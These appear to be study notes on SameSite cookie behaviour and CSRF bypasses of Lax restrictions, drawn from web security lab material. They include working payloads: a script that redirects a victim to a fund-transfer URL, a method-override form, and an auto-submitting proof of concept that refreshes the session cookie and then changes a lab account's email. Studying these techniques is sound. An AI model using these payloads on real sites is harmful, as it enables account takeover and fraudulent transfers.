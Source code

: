 SameSite can have three different values:
- **Strict**: browsers will not send the cookie in any cross-site requests.
- **Lax**: browsers will send the cookie in cross-site requests, but only if **the request uses the `GET` method** and it **resulted from a top-level navigation** by the user, such as clicking on a link.
- **None**: browsers will send this cookie in all requests to the site that issued it, even those that were triggered by completely unrelated third-party sites.
  >[!warning]
  >When setting a cookie with `SameSite=None`, the website must also include the `Secure` attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.

#### Common bypasses and flaws

- **Bypassing SameSite Lax restrictions using GET requests**: 
  sometimes server aren't always fussy about whether they receive a GET or POST request to a given endpoint. In this case it's possible to **transform a `POST` request into a `GET` request** and bypass the Lax restriction.
  >[!note]
  >As long as the request involves a **top-level navigation**, the browser will still include the victim's session cookie. Form submissions do not work!
  
  ```html
  <script> document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; </script>
  ```
  Even if an ordinary `GET` request isn't allowed, **some frameworks provide ways of overriding the method** specified in the request line:
  ```html
  <form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
  ```

- **Bypassing SameSite Lax restrictions with newly issued cookies**:
  Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions. To avoid breaking single sign-on mechanisms, **Chrome doesn't actually enforce these restrictions at all for the first 120 seconds after a cookie is set**. It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/');
    // open a popup to force the cookie refresh
    window.onclick = () => {
        window.open('https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account')
    }</script>
    <form action="https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
